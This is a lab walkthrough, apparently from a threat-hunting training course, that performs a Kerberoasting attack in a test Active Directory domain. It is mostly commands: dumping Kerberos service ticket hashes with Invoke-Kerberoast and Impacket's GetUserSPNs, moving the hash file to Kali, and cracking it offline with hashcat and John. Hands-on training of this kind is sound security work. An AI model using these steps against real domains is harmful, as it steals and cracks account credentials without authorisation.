

# Chapter 2.4.1 - The Attack 

on windows 
====

choco install -y python3  
python -m pip install --upgrade pip

in powershell:  

```code
[Environment]::SetEnvironmentVariable("Path", "$env:Path;C:\Python38")
```

pip install updog

Powershell : 

```code
cd C:\terraform\threathunt\labs\4_KERBEROAST
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat
```

default output is for john

Open the file "hashcapture.txt" with Notepad++  
In the menu select "Encoding" and set it to "Encode in UTF-8" 
Save the file and the BOM will be gone.

start updog in the folder where you saved hashcapture.txt

on Kali hashcat / John
====

cd ~
wget http:\\10.0.0.x\hashcapture.txt

```
testadmin@AZ-KALI:~$ file hashcapture.txt 
hashcapture.txt: ASCII text, with very long lines, with CRLF line terminators
```

cat hashcapture.txt | tr -d " \t\n\r" > hash_clean.txt

hashcat -m13100 -a 0 hash_clean.txt Top1m.txt --force --potfile-disable


IMPACKET PYTHON
====

./GetUserSPNs.py acme.local/testadmin:Password1234! -o spns.txt -request -dc-ip 10.0.0.4

john --wordlist=Top1m.txt spns.txt

On your MAC or a local Kali Linux
====

Cracking hashes with hashcat is typically done on dedicated hardware - in this lab hashcat won't work on your Kali Linux machine in Azure. Hashcat is tricky when it comes to drivers and memory/cpu requirements.

You can give it a go on your own OS by installing Hashcat, below is the simplest way of doing this on MacOS - the performace won't be great, but it's enough to show the principle of password cracking.

```code 
brew install hashcat  
hashcat -m 13100 -O -a 0 hashes.txt Top1m.txt --force --potfile-disable --self-test-disable
```

|   |   |
|---|---|
|-O | switch to optimized OpenCL kernels|  
|-a | 0 = dictionary |
|   | 6 = brute force |
|-m | 13100 = Kerberos TGS-REP   |

